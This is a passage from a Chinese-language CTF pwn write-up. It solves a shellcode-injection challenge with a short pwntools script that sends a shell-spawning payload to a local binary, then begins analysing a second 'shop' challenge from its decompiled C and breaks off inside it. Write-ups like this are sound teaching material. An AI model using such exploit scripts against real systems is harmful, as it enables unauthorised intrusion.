 首先checksec，发现开启了栈保护和部分RELRO

![image-20231004101724816](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231004101724816.png)

ida64，发现主要代码就如下所示：

![image-20231004101904309](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231004101904309.png)

这里我们发现buf被存放在mmap申请（映射）的0x66660000的地址，并且后面直接用read读了256个字节。最后jumpout直接跳转到buf所在位置进行执行。

结合题目的意思，应该是只要将shellcode读入即可。

我们直接运行一下程序，也证明了我的猜测：

![image-20231004102205235](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231004102205235.png)

下面只要找任意一个小于256字节的shellcode传入即可。

这里直接使用pwntool自带的shellcraft。

```python
from pwn import *

context(arch='amd64',os='linux')
r = process("./ezshellcode")

payload = asm(shellcraft.sh())

#r.recvuntil(b'magic\n')

r.sendafter(b'magic\n',payload)

r.interactive()

```

注意这里一定要将\n读入，否则进入shell就会直接退出。

# newstar shop

首先checksec，发现保护全开

![image-20231004110416116](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231004110416116.png)

先用ida打开一下：

![image-20231004111654367](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231004111654367.png)

发现应该是一个互动的程序。依次查看三个函数：

shop

```c
unsigned __int64 shop()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("=============================");
  puts("===Welcome to newstar shop===");
  puts("=============================");
  puts("1.newstar's gift          20$");
  puts("2.pwn write up            40$");
  puts("3.shell                 9999$");
  puts("\n");
  puts("All things are only available for one day!");
  puts("What do you want to buy?");
```